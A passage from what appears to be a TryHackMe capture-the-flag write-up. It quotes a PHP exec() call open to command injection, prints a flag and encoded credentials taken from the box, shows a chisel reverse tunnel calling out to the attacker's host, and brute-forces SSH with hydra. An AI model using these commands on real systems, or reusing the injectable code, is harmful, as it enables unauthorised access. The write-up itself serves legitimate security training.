 Looking at `search.php` we see that this was executed with our input :

```
$query = exec("find ../../../files/* -iname \"*$target->target*\" | xargs");
```

We find the `web` flag in `/var/www/web-flag.txt` :

```
THM{Nzg2ZWQwYWUwN2UwOTU3NDY5ZjVmYTYw}
```

We retrieve the files that we saw earlier via the search query `/var/www/files/creds2.txt` :

```
LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAXUTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=
```

In `cyberchef` we do `base32` -> `base64` and we get 

```
c74341b26d29ad41da6cc68feedebd161103776555c21d77e3c2aa36d8c44730  -
```

Tried `from hex` but we get giberrish..

Maybe this is the password ?

Trying to `su` we get a `permission denied on /bin/su`



Looking at the services running on the box with `netstat -tulpn` we see:

```
tcp 0 0 127.0.0.1:22  0.0.0.0:* LISTEN      -
```

We don't have a `nc` binary but `curl 127.0.0.1:22` returns :

```
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
Protocol mismatch.
```

This port is only accessible locally.

We forward the port to our local machine using `chisel` :

```
Ours >> ./chisel server -p 8080 --reverse
box >> ./chisel client 10.6.32.20:8080 R:2222:127.0.0.1:22
```

At this point, I played around a lot with the strings that we got from `creds.txt` but couldn't find anything.. So I had a look at a write up to get a hint and well, we just needed to bruteforce the ssh password...

So here how we did it :

```
hydra -l fox -P /usr/share/wordlists/rockyou.txt -s 2222 127.0.0.1 ssh
```
